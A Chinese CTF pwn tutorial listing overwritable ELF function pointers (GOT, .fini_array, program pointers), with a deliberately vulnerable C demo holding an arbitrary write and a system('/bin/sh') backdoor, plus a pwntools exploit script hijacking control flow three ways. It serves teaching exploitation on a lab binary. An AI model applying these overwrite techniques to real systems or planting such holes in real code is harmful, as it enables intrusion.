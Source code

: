 ```yaml
---
title: CTF Pwn 题中 目标本体ELF 可用 函数指针 （攻击位置） 整理
date: 2021-05-31 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 对CTF Pwn题中 常见的 属于目标程序本体中的 可被攻击者利用进行控制流劫持的 函数指针 以及 触发方式 进行了整理。



| 攻击变量        | 变量位置 |触发函数  | 条件|
| --------------- | --------- |--------- |--------- |
| GOT表表项     |  .got.plt 段 |相应函数    | GOT表可写 |
| _fini_array   | .fini_array 段| exit(), main函数return  | _fini_array 可写（ -z norelro）|
| 程序自己实现的函数指针  | 程序的数据段（bss、data）、栈、堆） | 程序函数指针调用位置 | 无|

## 示例程序

附件：[test](https://xuanxuanblingbling.github.io/assets/attachment/elf/test)

```c
#include <stdio.h>
#include <stdlib.h>

int backdoor() { system("/bin/sh"); }
int hello()    { puts("hello\n"); }
int(* func_ptr)();

int main(){
    long long * p,data;
    char rw;
    setbuf(stdout,0);
    func_ptr = hello;
    while(1){
        printf("write or return or exit or hello?\n> ");scanf("%c",&rw);scanf("%*[^\n]%*c");
        if(rw == 'w'){
            printf("addr: ");scanf("%p",&p);
            printf("data: ");scanf("%llx",&data);
            *p = data; printf("OK\n");
        }
        else if(rw == 'r') break;
        else if(rw == 'e') exit(0);
        else if(rw == 'h') func_ptr();
        scanf("%*c");
    }
    return 0;
}
```

编译方式：

```bash
$ gcc test.c -z norelro -o test
```

## 攻击总结

```python
from pwn import *
myelf = ELF("./test")
io = process(myelf.path)

sla      = lambda delim,data   :  io.sendlineafter(delim,data)
write    = lambda addr,data    :  (sla("> ","w"),sla("addr:",hex(addr)),sla("data:",hex(data)))
hello    = lambda              :  (sla("> ","h"))
ret      = lambda              :  (sla("> ","r"))
exit     = lambda              :  (sla("> ","e"))

def attack_func_ptr():
    write(myelf.symbols['func_ptr'],myelf.symbols['backdoor'])
    hello() # trigger
    
def attack_got():
    write(myelf.got['puts'],myelf.symbols['backdoor']) # puts("OK"); auto trigger

def attack_fini_array(): 
    # gcc test.c -z norelro -o test
    # https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/
    # https://www.coder.work/article/7496829
    # https://blog.csdn.net/easy_level1/article/details/115662443

    write(0x0600AF0,myelf.symbols['backdoor'])
    ret() # trigger 
    
    # exit also can trigger _fini_array: https://eqqie.cn/index.php/laji_note/1546/
    # exit() 

attack_func_ptr()
io.interactive()
```